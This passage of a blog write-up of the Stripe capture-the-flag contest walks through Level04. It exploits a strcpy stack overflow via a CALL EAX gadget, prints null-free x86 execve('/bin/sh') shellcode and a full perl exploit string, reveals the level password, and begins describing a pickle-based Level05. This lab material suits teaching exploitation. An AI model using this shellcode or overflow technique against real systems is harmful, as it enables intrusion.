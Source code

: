 According to the [documentation][strcpy], "The strcpy() function shall return
s1; no return value is reserved to indicate an error". In short, it means it
will return the address of our buffer. On x86, the return value of a function
compiled with a standard calling convention (i.e. stdcall, cdecl, etc.) will be
placed in the EAX register. So, we have an opportunity here. We overwrite the
buf array, and also the return address. Once the function returns, it will
transfer execution to a location we can specify. At offset 0x0804857b in the
executable provided, there is a "CALL EAX" instruction. So, we can make the
program return to an address that will then transfer execution to our buffer.

Once we've got execution transferred to our buffer, we need to do something
with that. I settled on a quick exploit that would clear registers, push
"/bin/sh" to stack, and then execute it - giving me shell access:

{{< highlight nasm >}}
xor     ecx,ecx     ; 31c9
mul     eax,ecx     ; f7e1
push    ecx         ; 51
push    68732F2Fh   ; 682f2f7368
push    6E69622Fh   ; 682f62696e
mov     ebx,esp     ; 89e3
mov     al,0Bh      ; b00b
int     80h         ; cd80
{{< /highlight >}}

I've provided the hex code of the exploit in the comments, for reference. Note
the lack of null (0x00) bytes - since `strcpy()` will copy up to the first null
byte, if there's one in the exploiit, it will cause the exploit to fail. Thus,
we simply clear eax and ecx, push ecx (which is now 0x00000000) to the stack
for our null terminator, push "/bin/sh" encoded as hex, and then call the
system call `sys_execve` (index 0x0B) to run it.

A couple technical notes: if we simply run that as given, it'll segfault.
Specifically what happens is that `esp` is still pointing to our shellcode,
which means we're actually overwriting our own code. I simply "cheated" and put
a bunch of "DEC ESP" commands at the beginning of the shellcode (hex 0x4C).

My final exploit string is (note that it's all on one line):

{{< highlight shell >}}
export SC=`perl -e 'print "\x90" x 915 . "\x31\xc9\xf7\xe1" . "\x4c" x 100 . "\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" . "\x7b\x85\x04\x08" . "CCCC" x 10'` /levels/level04 $SC
{{< /highlight >}}

From within the resulting shell, we can simply cat the password file, and we
get: `fzfDGnSmd317`

## Level05

This one is actually pretty easy. There's a Python script running that provides
the ability to convert an input string to uppercase. We notice that the program
serializes jobs with python's pickle module, and then sends them to a series of
workers, who then deserialize and process the job. Some excerpts from the
program are:


[ctf]: https://stripe.com/blog/capture-the-flag
[wrapup]: https://stripe.com/blog/capture-the-flag-wrap-up
[ctfcode]: https://github.com/abrody/stripe-ctf/
[aslr]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[strcpy]: http://pubs.opengroup.org/onlinepubs/009695399/functions/strcpy.html
[pickle]: http://docs.python.org/library/pickle.html
[level06]: https://github.com/abrody/stripe-ctf/blob/master/code/level06/level06.c
[mkfifo]: http://linux.die.net/man/3/mkfifo
[writeup01]: http://blog.zx2c4.com/781
[writeup02]: http://willcodeforfoo.com/2012/02/capture-the-flag/
[writeup03]: https://github.com/dividuum/stripe-ctf
[writeup04]: https://gist.github.com/michaelpetrov/1899630